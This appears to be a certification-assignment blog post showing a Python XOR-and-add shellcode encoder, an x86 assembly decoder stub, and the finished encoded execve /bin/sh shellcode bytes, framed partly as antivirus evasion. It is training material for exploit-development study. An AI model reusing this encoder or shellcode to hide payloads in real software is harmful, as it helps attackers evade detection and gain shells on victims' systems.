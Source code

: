 ```yaml
---
layout: single
title: "SLAE: Shellcode Encoder"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-23
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_4)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and confirm the execution of a custom shellcode encoder. The payload will be a simple execve syscall calling //bin/sh as below:

![execve](/assets/images/SLAE_4/1.JPG)

First we will need to encode the raw shellcode, and then write a decoder in assembly which we will extract and prepend to our encoded shellcode. 

This is known as a "[decoder stub](http://uninformed.org/index.cgi?v=9&a=3&p=4)", it essentially runs prior to the encoded shellcode upon execution, and by the time the payload is reached it is decoded and ready to go.

#### Encoder:
After a lot of trial and error, I opted for 2 very simple techniques spliced together.

First, I modified Vivek's python script to take our shellcode and then xor each byte before incrementing them by 3 as below:

```
#!/usr/bin/python
# XOR all bytes then increase them by 3
# Python Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x = x^0xaa
	encoded += '\\x'
	encoded += '%02x' % (x+3) # %02x tells format() to use at least 2 digits in hex

	encoded2 += '0x'
	encoded2 += '%02x,' % (x+3)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

We run our script with the shellcode and get out encoded payload:

![execve](/assets/images/SLAE_4/2.JPG)


#### Decoder:

Using the same tricks from previous assignments, I was able to write a simple yet effective decoder.

```
global _start			

section .text
_start:

	jmp short call_shellcode ; jump to call_shellcode, call decoder
decoder:
	pop esi ; (because we jumped, the next address is that of our shellcode)
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 25 ; set our loop length (equal to that of our generated shellcode)

decode2:
	sub byte [esi], 0x03
	xor byte [esi], 0xaa
	inc esi ; increment esi to run through all bytes
	loop decode2
	jmp short EncodedShellcode ; once complete jump into out decoded payload!



call_shellcode:

	call decoder
	EncodedShellcode: db 0x9e,0x6d,0xfd,0xc5,0x88,0x88,0xdc,0xc5,0xc5,0x88,0xcb,0xc6,0xc7,0x26,0x4c,0xfd,0x26,0x4b,0xfc,0x26,0x4e,0x1d,0xa4,0x6a,0x2d

```

We now pull the shellcode from our compiled decoder, which will altogether yield both the decoder stub and payload

```objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x14\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x19\x80\x2e\x03\x80\x36\xaa\x46\xe2\xf7\xeb\x05\xe8\xe7\xff\xff\xff\x9e\x6d\xfd\xc5\x88\x88\xdc\xc5\xc5\x88\xcb\xc6\xc7\x26\x4c\xfd\x26\x4b\xfc\x26\x4e\x1d\xa4\x6a\x2d"
```
The complete shellcode goes in our c program, and we test the decoder stub:

![shellcode_in_c](/assets/images/SLAE_4/3.JPG)

![execution](/assets/images/SLAE_4/4.JPG)

Although I opted to try and keep this as simple as possible, the results from [VirusTotal](https://www.virustotal.com/gui/file/8905dfb42a756e8d155aa696e6d4b39259ffecc6d8075d80885adbc8d9f816d5/detection) were not that bad.

![virus_total](/assets/images/SLAE_4/5.JPG)
